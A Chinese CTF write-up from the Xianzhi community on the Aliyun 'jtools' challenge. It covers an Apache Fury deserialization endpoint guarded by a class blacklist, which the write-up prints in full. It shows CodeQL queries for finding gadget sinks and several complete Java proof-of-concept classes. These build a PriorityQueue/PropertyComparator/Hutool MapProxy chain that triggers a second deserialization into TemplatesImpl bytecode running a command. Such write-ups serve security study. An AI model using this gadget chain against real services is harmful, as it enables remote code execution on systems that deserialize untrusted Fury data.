# 阿里云jtools详解及codeql分析调用链-先知社区

> **来源**: https://xz.aliyun.com/news/18350  
> **文章ID**: 18350

---

拖了将近四个月的坑，现在填一下。

### 起手式

反编译看源码，起了一个http，接受参数就是一个很直接的fury反序列化，会直接调用toString，存在黑名单



<https://fory.apache.org/zh-CN/docs/docs/guide/java_object_graph_guide>

fury文档



关闭了需要注册才能反序列化的配置，看一眼黑名单

```
bsh.Interpreter
bsh.XThis
ch.qos.logback.core.db.DriverManagerConnectionSource
ch.qos.logback.core.db.JNDIConnectionSource
clojure.core
clojure.main
com.caucho.config.types.ResourceRef
com.caucho.hessian.test.TestCons
com.caucho.naming.QName
com.ibm.jtc.jax.xml.bind.v2.runtime.unmarshaller.Base64Data
com.ibm.xltxe.rnm1.xtq.bcel.util.ClassLoader
com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase
com.mchange.v2.c3p0.JndiRefForwardingDataSource
com.mchange.v2.c3p0.WrapperConnectionPoolDataSource
com.mysql.cj.jdbc.MysqlConnectionPoolDataSource
com.mysql.cj.jdbc.MysqlDataSource
com.mysql.cj.jdbc.MysqlXADataSource
com.mysql.jdbc.jdbc2.optional.MysqlDataSource
com.mysql.jdbc.util.ServerController
com.rometools.rome.feed.impl.EqualsBean
com.rometools.rome.feed.impl.ToStringBean
com.sun.corba.se.impl.activation.ServerManagerImpl
com.sun.corba.se.impl.activation.ServerTableEntry
com.sun.corba.se.impl.presentation.rmi.InvocationHandlerFactoryImpl.CustomCompositeInvocationHandlerImpl
com.sun.corba.se.spi.orbutil.proxy.CompositeInvocationHandlerImpl
com.sun.corba.se.spi.orbutil.proxy.LinkedInvocationHandler
com.sun.jndi.ldap.LdapAttribute
com.sun.jndi.rmi.registry.BindingEnumeration
com.sun.jndi.toolkit.dir.LazySearchEnumerationImpl
com.sun.org.apache.bcel.internal.util.ClassLoader
com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl
com.sun.org.apache.xpath.internal.objects.XString
com.sun.org.apache.xpath.internal.XPathContext
com.sun.rowset.JdbcRowSetImpl
com.sun.syndication.feed.impl.EqualsBean
com.sun.syndication.feed.impl.ObjectBean
com.sun.syndication.feed.impl.ToStringBean
com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data
com.zaxxer.hikari.HikariConfig
com.zaxxer.hikari.HikariDataSource
groovy.lang.PropertyValue
groovy.util.MapEntry
java.beans.EventHandler
java.beans.Expression
java.lang.invoke.InvokeDynamic
java.lang.invoke.MethodHandles.Lookup
java.lang.MethodHandle
java.lang.Process
java.lang.ProcessBuilder
java.lang.reflect.Constructor
java.lang.reflect.Field
java.lang.reflect.Method
java.lang.Runtime
java.lang.Shutdown
java.lang.System
java.lang.Thread
java.lang.ThreadGroup
java.lang.ThreadLocal
java.lang.UNIXProcess
java.lang.VarHandler
java.net.Socket
java.rmi.registry.Registry
java.rmi.server.ObjID
java.rmi.server.RemoteObjectInvocationHandler
java.rmi.server.UnicastRemoteObject
java.security.SignedObject
java.util.ServiceLoader
javassist.bytecode.annotation.Annotation
javassist.bytecode.annotation.AnnotationImpl
javassist.bytecode.annotation.AnnotationMemberValue
javassist.tools.web.Viewer
javassist.util.proxy.SerializedProxy
javax.activation.MimeTypeParameterList
javax.imageio.ImageIO
javax.imageio.spi.ServiceRegistry
javax.management.BadAttributeValueExpException
javax.management.ImmutableDescriptor
javax.management.MBeanServerInvocationHandler
javax.management.openmbean.CompositeDataInvocationHandler
javax.media.jai.remote.SerializableRenderedImage
javax.naming.InitialContext
javax.naming.ldap.Rdn
javax.naming.spi.ContinuationContext.getEnvironment
javax.naming.spi.ContinuationContext.getTargetContext
javax.naming.spi.ObjectFactory
javax.script.ScriptEngineManager
javax.sound.sampled.AudioFileFormat
javax.sound.sampled.AudioFormat
javax.swing.UIDefaults
javax.xml.transform.Templates
net.bytebuddy.dynamic.loading.ByteArrayClassLoader
oracle.jdbc.connector.OracleManagedConnectionFactory
oracle.jdbc.pool.OracleDataSource
org.apache.activemq.ActiveMQConnectionFactory
org.apache.activemq.ActiveMQXAConnectionFactory
org.apache.aries.transaction.jms.RecoverablePooledConnectionFactory
org.apache.bcel.util.ClassLoader
org.apache.carbondata.core.scan.expression.ExpressionResult
org.apache.commons.beanutils.BeanComparator
org.apache.commons.beanutils.BeanToPropertyValueTransformer
org.apache.commons.codec.binary.Base64
org.apache.commons.collections.functors.ChainedTransformer
org.apache.commons.collections.functors.ConstantTransformer
org.apache.commons.collections.functors.InstantiateTransformer
org.apache.commons.collections.functors.InvokerTransformer
org.apache.commons.collections.Transformer
org.apache.commons.collections4.comparators.TransformingComparator
org.apache.commons.collections4.functors.ChainedTransformer
org.apache.commons.collections4.functors.ConstantTransformer
org.apache.commons.collections4.functors.InstantiateTransformer
org.apache.commons.collections4.functors.InvokerTransformer
org.apache.commons.configuration.JNDIConfiguration
org.apache.commons.configuration2.JNDIConfiguration
org.apache.commons.dbcp.datasources.PerUserPoolDataSource
org.apache.commons.dbcp.datasources.SharedPoolDataSource
org.apache.commons.dbcp2.datasources.PerUserPoolDataSource
org.apache.commons.dbcp2.datasources.SharedPoolDataSource
org.apache.commons.fileupload.disk.DiskFileItem
org.apache.ibatis.executor.loader.AbstractSerialStateHolder
org.apache.ibatis.executor.loader.cglib.CglibProxyFactory
org.apache.ibatis.executor.loader.CglibSerialStateHolder
org.apache.ibatis.executor.loader.javassist.JavassistSerialStateHolder
org.apache.ibatis.executor.loader.JavassistSerialStateHolder
org.apache.ibatis.javassist.bytecode.annotation.Annotation
org.apache.ibatis.javassist.bytecode.annotation.AnnotationImpl
org.apache.ibatis.javassist.bytecode.annotation.AnnotationMemberValue
org.apache.ibatis.javassist.tools.web.Viewer
org.apache.ibatis.javassist.util.proxy.SerializedProxy
org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup
org.apache.log.output.db.DefaultDataSource
org.apache.log4j.receivers.db.DriverManagerConnectionSource
org.apache.myfaces.context.servlet.FacesContextImpl
org.apache.myfaces.context.servlet.FacesContextImplBase
org.apache.myfaces.el.CompositeELResolver
org.apache.myfaces.el.unified.FacesELContext
org.apache.myfaces.view.facelets.el.ValueExpressionMethodExpression
org.apache.openjpa.ee.JNDIManagedRuntime
org.apache.openjpa.ee.RegistryManagedRuntime
org.apache.shiro.jndi.JndiObjectFactory
org.apache.shiro.realm.jndi.JndiRealmFactory
org.apache.tomcat.dbcp.dbcp.BasicDataSource
org.apache.tomcat.dbcp.dbcp.datasources.PerUserPoolDataSource
org.apache.tomcat.dbcp.dbcp.datasources.SharedPoolDataSource
org.apache.tomcat.dbcp.dbcp2.BasicDataSource
org.apache.tomcat.dbcp.dbcp2.datasources.PerUserPoolDataSource
org.apache.velocity.runtime.resource.ContentResource
org.apache.velocity.runtime.resource.loader.DataSourceResourceLoader
org.apache.velocity.runtime.resource.Resource
org.apache.velocity.Template
org.apache.wicket.util.upload.DiskFileItem
org.apache.xalan.xsltc.trax.TemplatesImpl
org.apache.xbean.naming.context.ContextUtil
org.apache.xpath.XPathContext
org.apache.zookeeper.Shell
org.aspectj.apache.bcel.util.ClassLoader
org.bouncycastle.asn1.ASN1Object
org.bouncycastle.asn1.x509.X509Extensions
org.codehaus.groovy.runtime.ConvertedClosure
org.codehaus.groovy.runtime.GStringImpl
org.codehaus.groovy.runtime.MethodClosure
org.datanucleus.store.rdbms.datasource.dbcp.datasources.PerUserPoolDataSource;
org.datanucleus.store.rdbms.datasource.dbcp.datasources.SharedPoolDataSource;
org.eclipse.jetty.util.log.LoggerLog
org.geotools.filter.ConstantExpression
org.h2.value.ValueJavaObject
org.h2.message.Trace
org.h2.message.TraceObject
org.h2.message.TraceSystem
org.h2.message.TraceWriterAdapter
org.h2.jdbcx.JdbcDataSource
org.hibernate.engine.spi.TypedValue
org.hibernate.tuple.component.AbstractComponentTuplizer
org.hibernate.tuple.component.PojoComponentTuplizer
org.hibernate.type.AbstractType
org.hibernate.type.ComponentType
org.hibernate.type.Type
org.jboss.ejb3.proxy.handle.HomeHandleImpl
org.jboss.ejb3.stateful.StatefulHandleImpl
org.jboss.ejb3.stateless.StatelessHandleImpl
org.jboss.interceptor.builder.InterceptionModelBuilder
org.jboss.interceptor.builder.MethodReference
org.jboss.interceptor.proxy.DefaultInvocationContextFactory
org.jboss.interceptor.proxy.InterceptorMethodHandler
org.jboss.interceptor.reader.ClassMetadataInterceptorReference
org.jboss.interceptor.reader.DefaultMethodMetadata
org.jboss.interceptor.reader.ReflectiveClassMetadata
org.jboss.interceptor.reader.SimpleInterceptorMetadata
org.jboss.interceptor.spi.instance.InterceptorInstantiator
org.jboss.interceptor.spi.metadata.InterceptorReference
org.jboss.interceptor.spi.metadata.MethodMetadata
org.jboss.interceptor.spi.model.InterceptionModel
org.jboss.interceptor.spi.model.InterceptionType
org.jboss.proxy.ejb.handle.EntityHandleImpl
org.jboss.proxy.ejb.handle.HomeHandleImpl
org.jboss.proxy.ejb.handle.StatefulHandleImpl
org.jboss.proxy.ejb.handle.StatelessHandleImpl
org.jboss.resteasy.plugins.server.resourcefactory.JndiResourceFactory
org.jboss.weld.interceptor.builder.InterceptionModelBuilder
org.jboss.weld.interceptor.builder.MethodReference
org.jboss.weld.interceptor.proxy.DefaultInvocationContextFactory
org.jboss.weld.interceptor.proxy.InterceptorMethodHandler
org.jboss.weld.interceptor.reader.ClassMetadataInterceptorReference
org.jboss.weld.interceptor.reader.DefaultMethodMetadata
org.jboss.weld.interceptor.reader.ReflectiveClassMetadata
org.jboss.weld.interceptor.reader.SimpleInterceptorMetadata
org.jboss.weld.interceptor.spi.instance.InterceptorInstantiator
org.jboss.weld.interceptor.spi.metadata.InterceptorReference
org.jboss.weld.interceptor.spi.metadata.MethodMetadata
org.jboss.weld.interceptor.spi.model.InterceptionModel
org.jboss.weld.interceptor.spi.model.InterceptionType
org.mockito.internal.creation.cglib.AcrossJVMSerializationFeature
org.mortbay.log.Slf4jLog
org.mozilla.javascript.Context
org.mozilla.javascript.IdScriptableObject
org.mozilla.javascript.MemberBox
org.mozilla.javascript.NativeError
org.mozilla.javascript.NativeJavaMethod
org.mozilla.javascript.NativeJavaObject
org.mozilla.javascript.NativeObject
org.mozilla.javascript.ScriptableObject
org.python.core.PyBytecode
org.python.core.PyFunction
org.python.core.PyObject
org.quartz.utils.JNDIConnectionProvider
org.reflections.Reflections
org.springframework.aop.aspectj.autoproxy.AspectJAwareAdvisorAutoProxyCreator
org.springframework.aop.framework.AdvisedSupport
org.springframework.aop.framework.JdkDynamicAopProxy
org.springframework.aop.support.DefaultBeanFactoryPointcutAdvisor
org.springframework.aop.target.SingletonTargetSource
org.springframework.beans.BeanWrapperImpl
org.springframework.beans.factory.BeanFactory
org.springframework.beans.factory.config.MethodInvokingFactoryBean
org.springframework.beans.factory.config.PropertyPathFactoryBean
org.springframework.beans.factory.ObjectFactory
org.springframework.beans.factory.support.DefaultListableBeanFactory
org.springframework.core.SerializableTypeWrapper
org.springframework.expression.spel.ast.Indexer
org.springframework.expression.spel.ast.MethodReference
org.springframework.jndi.JndiObjectTargetSource
org.springframework.jndi.support.SimpleJndiBeanFactory
org.springframework.orm.jpa.AbstractEntityManagerFactoryBean
org.springframework.transaction.jta.JtaTransactionManager
org.thymeleaf.standard.expression.Expression
org.thymeleaf.standard.expression.StandardExpressionParser
org.yaml.snakeyaml.tokens.DirectiveToken
pstore.shaded.org.apache.commons.collections.functors.InvokerTransformer
sun.print
sun.print.UnixPrintService
sun.print.UnixPrintServiceLookup
sun.rmi.server.UnicastRef
sun.rmi.server.UnicastRef2
sun.rmi.transport.LiveRef
sun.rmi.transport.tcp.TCPEndpoint
sun.swing.SwingLazyValue
weblogic.ejb20.internal.LocalHomeHandleImpl
weblogic.jms.common.ObjectMessageImpl
com.atomikos.icatch.jta.RemoteClientUserTransaction
com.feilong.lib
```

分析下带的依赖及不在黑名单的利用链

<https://unam4.github.io/2024/11/25/hutool%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%86%E6%9E%90%E5%8F%8Agadget%E6%B5%85%E6%9E%90/> hutool自带的getter触发，利用苛刻

AbstractAction --> equals

PriorityQueue --> compare

很有意思的是feilong中存在一个PropertyComparator，也是和cb的一模一样，可以用于触发getter

​



​

### 利用链查找

#### feilong 任意类构造函数调用

构建codeql库，写个通用规则找一些sink点，查找一些getter和toString触发的起点链

```
/**
@kind path-problem
*/

import java
import semmle.code.java.dataflow.FlowSources

class Serializable extends Method{
    Serializable(){
        this.getDeclaringType().getASupertype*() instanceof TypeSerializable
    }
}

class GetSource extends Serializable {
    GetSource(){
    ((this.getName().indexOf("get") = 0 or this.getName().indexOf("set") = 0) and
    this.hasNoParameters() and
    this.getName().length() > 3 and
    this.isPublic() )
    or this.hasName("toString")
    

}
}

class GetSink extends Serializable {

    GetSink() {
        exists(MethodCall a| 
            (
            (a.getCallee().hasName("lookup") and a.getCallee().getDeclaringType().getASupertype*().hasQualifiedName("javax.naming", "Context"))
        or   a.getCallee().hasName("readObject")
        or   (a.getCallee().hasName("newInstance") and a.getCallee().getNumberOfParameters() = 1 )
            )
        and  this = a.getCaller()
            ) 
    }  
}  

query predicate edges(Method a, Method b) { 
    a.polyCalls(b)
}

from GetSource source, GetSink sink
where edges+(source, sink)
select source, source, sink, "$@ $@ to $@ $@" ,
source.getDeclaringType(),source.getDeclaringType().getName(),
source,source.getName(),
sink.getDeclaringType(),sink.getDeclaringType().getName(),
sink,sink.getName()     
```

几乎所有都指向一个



此类类似于cc3的触发，可以去打TrAXFilter constructor newInstance，可惜在黑名单了





#### Hutool mapproxy二次反序列化（正解）

翻阅了一下fury的文档，没有继承反序列化接口的也可以去参与反序列化，所以重新编写规则，只查找sink点

* 排除feilong黑名单
* 因为不知道jdk版本，外加没有tomcat依赖，抛弃jndi sink点

```
/**
@kind path-problem
*/
import java
import semmle.code.java.dataflow.FlowSources

class GetSink extends Method {
    GetSink() {
        exists(MethodCall a| 
            (
             a.getCallee().hasName("readObject")
        or   (a.getCallee().hasName("newInstance") and a.getCallee().getNumberOfParameters() = 1)
            )
        and  this = a.getCaller()
            ) 
        and not this.getQualifiedName().matches("com.feilong.lib%")
    }  
}  
from GetSink sink
select sink,sink.getDeclaringType()
```



sink点筛选一下，大概只有这两个是可利用性比较高的

* ReflectUtil newInstance 任意类构造函数调用
* IoUtil readObj 二次反序列化

接下来编写数据流分析，确保我们的参数可以一直到sink点调用

source

* toString触发点
* readObject触发点
* invoke触发点

但是实际上如果三个规则一起写就会因为数据量太大数据流图构建不出来。所以就面向答案解题，直接查找invoke的触发点，需要编写一个污点传播规则

```
/**
@kind path-problem
*/
import java
import semmle.code.java.dataflow.FlowSources


module InvokeToDeserializeFlowConfig implements DataFlow::ConfigSig {
    predicate isSource(DataFlow::Node source) {
        exists(Method m |
            // MapProxy的invoke方法的参数
            (m.getName() = "invoke" and
             source.asParameter() = m.getAParameter()
             and m.getDeclaringType().(RefType).getASupertype*().hasQualifiedName("java.lang.reflect", "InvocationHandler")
             ) 
        )
    }

    // Sink: 反序列化方法调用
    predicate isSink(DataFlow::Node sink) {
        exists(MethodCall mc |
            sink.asExpr() = mc.getAnArgument() and
            (
                (mc.getMethod().getDeclaringType().hasQualifiedName("cn.hutool.core.io", "IoUtil") and mc.getMethod().getName() = "readObj") 
                or
                (mc.getMethod().getDeclaringType().hasQualifiedName("cn.hutool.core.util", "ReflectUtil") and mc.getMethod().getName() = "newInstance") 

            ) and
            // 排除特定包
            not mc.getMethod().getDeclaringType().getPackage().getName().matches("com.feilong.lib%")
        )
    }

    predicate isAdditionalFlowStep(DataFlow::Node node1, DataFlow::Node node2) {
        //  方法内部调用链传播 
        exists(MethodCall innerCall, Method containingMethod |
            // innerCall是包含在某个方法内的调用
            innerCall.getEnclosingCallable() = containingMethod and
            // containingMethod是invoke方法
            containingMethod.getName() = "invoke" and
            // 从invoke方法的参数到内部调用的参数
            (
                (node1.asParameter() = containingMethod.getAParameter() and
                 node2.asExpr() = innerCall.getAnArgument()) or
                // 或者从内部调用的结果到方法返回
                (node1.asExpr() = innerCall and
                 exists(ReturnStmt rs | rs.getEnclosingCallable() = containingMethod and
                                     node2.asExpr() = rs.getResult()))
            )
        )
    }
}

// 配置数据流模块
module InvokeToDeserializeFlow = TaintTracking::Global<InvokeToDeserializeFlowConfig>;
import InvokeToDeserializeFlow::PathGraph

// 查询语句
from InvokeToDeserializeFlow::PathNode source, InvokeToDeserializeFlow::PathNode sink
where InvokeToDeserializeFlow::flowPath(source, sink)
select source.getNode(), source, sink, "source to sink"
```





调用Convert.convert，参数可控，filename来自于methodname，从当前map中获取对应的值





一路调用到BeanConverter的convertInternal中转换为byte进行二次反序列化



简单来说就是要在MapProxy中塞一个二次反序列化数据的byte，key为fieldname即可，接下来我们分析下fieldname怎么获取

fieldname截取自调用的方法名，以get开头或者is开头，需要无参，并且其方法returnType不能为void

我们可以去利用之前feilong中的PropertyComparator去触发getter，但是这里需要一个满足条件的getter

* get or is 开头
* 无参方法
* returnType不能为void



编写codeql查询

```
import java

from Method m, Interface iface
where
  m.getDeclaringType() = iface and
  (m.getName().matches("get%") or m.getName().matches("is%")) and
  m.getName().length() > 3 and
  m.hasNoParameters() and
  not m.getReturnType().hasName("void")
select m, iface.getName()
```



有一堆啊，编写一下payload试试

利用PriorityQueue去触发PropertyComparator.compare

```
package com.app;

import cn.hutool.captcha.ICaptcha;
import cn.hutool.core.map.MapProxy;
import com.Utils.Util;
import com.feilong.core.util.comparator.PropertyComparator;

import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.PriorityQueue;

public class test {
    public static void main(String[] args) throws Exception {

        HashMap hashMap = new HashMap();
        hashMap.put("1","1");
        MapProxy mapProxy1 = new MapProxy(hashMap);

        ICaptcha o = (ICaptcha)Proxy.newProxyInstance(ICaptcha.class.getClassLoader(), new Class[]{ICaptcha.class}, mapProxy1);
        ICaptcha o1 =(ICaptcha) Proxy.newProxyInstance(ICaptcha.class.getClassLoader(), new Class[]{ICaptcha.class}, mapProxy1);
        //
        //        //需要触发的getter  ICaptcha getCode 使用code
        PropertyComparator propertyComparator = new PropertyComparator("code");
        PriorityQueue priorityQueue = new PriorityQueue(2,propertyComparator);

        Util.setValue(priorityQueue,"size",2);
        Object[] objectsjdk = {o,o1};

        Util.setValue(priorityQueue,"queue",objectsjdk);


        String serialize = Util.serialize(priorityQueue);
        Util.unserialize(serialize);
    }
}

```





即可控制Convert.convert的第二参数，继续向下调试





然后发现进入的不是BeanConverter

查看了一下wp里的调用，走的是下面的BeanConverter.convert。



我燃尽了，这里我还真不知道怎么写codeql污点传播，但是这里的调用确实是对的,我们需要控制type类型让他进入下面的结构即可，想进入下面的逻辑，则要获取不到对应的convert



会根据我们传入的Class type去查找对应的convert，我们的目标BeanConvert并不在此，所以我们需要找一个ClassType不在其中的



最后一层要是一个Bean





要有setter或public field



codeql去查找

```
import java

from Method m, Interface iface
where
  (m.getDeclaringType() = iface and
  m.getName().matches("get%") and
  m.getName().length() > 3 and
  m.hasNoParameters() and
  not m.getReturnType().hasName("void")) and
  (
    // 存在对应的setter方法
    exists(Method setter |
      setter.getDeclaringType() = iface and
      setter.getName() = "set" + m.getName().suffix(3) and
      setter.getNumberOfParameters() = 1 and
      setter.getReturnType().hasName("void")
    )
    or
    // 存在对应的public字段
    exists(Class impl, Field field |
      impl.getASupertype*() = iface and
      field.getDeclaringType() = impl and
      field.isPublic() and
      field.getName().toLowerCase() = m.getName().suffix(3).toLowerCase()
    )
  )
select m, iface.getName()
```



```
package com.app;

import cn.hutool.captcha.ICaptcha;
import cn.hutool.core.annotation.AggregateAnnotation;
import cn.hutool.core.map.MapProxy;
import cn.hutool.db.dialect.Dialect;
import com.Utils.Util;
import com.feilong.core.util.comparator.PropertyComparator;
import com.feilong.lib.digester3.ObjectCreationFactory;

import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.PriorityQueue;

public class test {
    public static void main(String[] args) throws Exception {

        HashMap hashMap = new HashMap();
        hashMap.put("wrapper",new byte[]{1});
        MapProxy mapProxy1 = new MapProxy(hashMap);

        Dialect o = (Dialect)Proxy.newProxyInstance(Dialect.class.getClassLoader(), new Class[]{Dialect.class}, mapProxy1);
        Dialect o1 =(Dialect) Proxy.newProxyInstance(Dialect.class.getClassLoader(), new Class[]{Dialect.class}, mapProxy1);


//        //需要触发的getter
        PropertyComparator propertyComparator = new PropertyComparator("wrapper");
        PriorityQueue priorityQueue = new PriorityQueue(2,propertyComparator);

        Util.setValue(priorityQueue,"size",2);
        Object[] objectsjdk = {o,o1};

        Util.setValue(priorityQueue,"queue",objectsjdk);


        String serialize = Util.serialize(priorityQueue);
        Util.unserialize(serialize);
    }
}

```





至此我们就可以去构造原生反序列化数据进去试一试

```
package com.app;

import cn.hutool.core.map.MapProxy;
import cn.hutool.core.util.ObjectUtil;
import cn.hutool.db.dialect.Dialect;
import com.Utils.Util;
import com.feilong.core.util.comparator.PropertyComparator;

import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.PriorityQueue;

public class test {
    public static void main(String[] args) throws Exception {

        //二次反序列化数据
        Object templates = Util.getTemplates(Util.getshortclass("open -a calculator"));
        PropertyComparator beanComparator = new PropertyComparator("outputProperties");
        PriorityQueue priorityQueue1 = new PriorityQueue(2,beanComparator);
        Util.setValue(priorityQueue1,"size",2);
        Object[] t = {templates,templates};
        Util.setValue(priorityQueue1,"queue",t);

        byte[] decode = ObjectUtil.serialize(priorityQueue1);

        //存入hashmap中
        HashMap hashMap = new HashMap();
        hashMap.put("wrapper",decode);
        MapProxy mapProxy1 = new MapProxy(hashMap);

        Dialect o = (Dialect)Proxy.newProxyInstance(Dialect.class.getClassLoader(), new Class[]{Dialect.class}, mapProxy1);
        Dialect o1 =(Dialect) Proxy.newProxyInstance(Dialect.class.getClassLoader(), new Class[]{Dialect.class}, mapProxy1);


//        //需要触发的getter
        PropertyComparator propertyComparator = new PropertyComparator("wrapper");
        PriorityQueue priorityQueue = new PriorityQueue(2,propertyComparator);

        Util.setValue(priorityQueue,"size",2);
        Object[] objectsjdk = {o,o1};

        Util.setValue(priorityQueue,"queue",objectsjdk);


        String serialize = Util.serialize(priorityQueue);
        Util.unserialize(serialize);
    }
}

```

结果报错



查阅相关资料

<https://godownio.github.io/2025/02/28/2025aliyun-ctf-java/>



大概意思就是，PropertyComparator和CB链中的BeanComparator有一些区别，会检查是否加载了spring下的工具类，如果存在spring相关，那么就会去调用spring的类去进行处理。否则会进入和cb链一样的处理流程。我这边用了自己的Util类，其中存在一些spring的依赖，导致发生了错误。

修改payload即可

```
package com.app;

import cn.hutool.core.map.MapProxy;
import cn.hutool.core.util.ObjectUtil;
import cn.hutool.db.dialect.Dialect;
import com.feilong.core.util.comparator.PropertyComparator;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.fury.Fury;
import org.apache.fury.config.Language;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.lang.reflect.Proxy;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.HashMap;
import java.util.PriorityQueue;

public class test {
    public static void main(String[] args) throws Exception {

        //二次反序列化数据
        Object templates1 = getTemplates(Files.readAllBytes(Paths.get("/Users/Aecous/Documents/program/java/JavaUtils/target/classes/com/test/calc.class")));
        Object templates2 = getTemplates(Files.readAllBytes(Paths.get("/Users/Aecous/Documents/program/java/JavaUtils/target/classes/com/test/calc.class")));

        PropertyComparator beanComparator = new PropertyComparator("outputProperties");
        PriorityQueue priorityQueue1 = new PriorityQueue(2,beanComparator);
        setValue(priorityQueue1,"size",2);
        Object[] t = {templates1,templates2};
        setValue(priorityQueue1,"queue",t);

        byte[] decode = ObjectUtil.serialize(priorityQueue1);

        //存入hashmap中
        HashMap hashMap = new HashMap();
        hashMap.put("wrapper",decode);
        MapProxy mapProxy1 = new MapProxy(hashMap);

        Dialect o = (Dialect)Proxy.newProxyInstance(Dialect.class.getClassLoader(), new Class[]{Dialect.class}, mapProxy1);
        Dialect o1 =(Dialect) Proxy.newProxyInstance(Dialect.class.getClassLoader(), new Class[]{Dialect.class}, mapProxy1);


//        //需要触发的getter
        PropertyComparator propertyComparator = new PropertyComparator("wrapper");
        PriorityQueue priorityQueue = new PriorityQueue(2,propertyComparator);

        setValue(priorityQueue,"size",2);
        Object[] objectsjdk = {o,o1};

        setValue(priorityQueue,"queue",objectsjdk);


//        String serialize = serialize(priorityQueue);
//        unserialize(serialize);

        String poc = furyserialize(priorityQueue);
        furyunserialize(poc);
    }

    public static void furyunserialize(String data){
        Fury fury = Fury.builder().withLanguage(Language.JAVA).requireClassRegistration(false).build();
        Object deserialize = fury.deserialize(Base64.getDecoder().decode(data));
//        result = deserialize.toString();
    }

    public static String furyserialize(Object data){
        Fury fury = Fury.builder().withLanguage(Language.JAVA).requireClassRegistration(false).build();
        byte[] serialize = fury.serialize(data);
        return Base64.getEncoder().encodeToString(serialize);
    }

    public static void unserialize(String exp) throws IOException, ClassNotFoundException {
        byte[] bytes = Base64.getDecoder().decode(exp);
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
        objectInputStream.readObject();
    }
    public static Object getTemplates(byte[] bytes) throws Exception {
        Templates templates = new TemplatesImpl();
        setValue(templates, "_bytecodes", new byte[][]{bytes});
        setValue(templates, "_name", "_");
        setValue(templates, "_tfactory", new TransformerFactoryImpl());  //这里自己改呗
        return templates;
    }

    public static void setValue(Object obj, String name, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static String serialize(Object obj) throws IOException {
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(obj);
        String poc = Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
        return poc;
    }
}

```

​



最终只需要执行命令把结果输出到desc.txt中即可web访问了

​
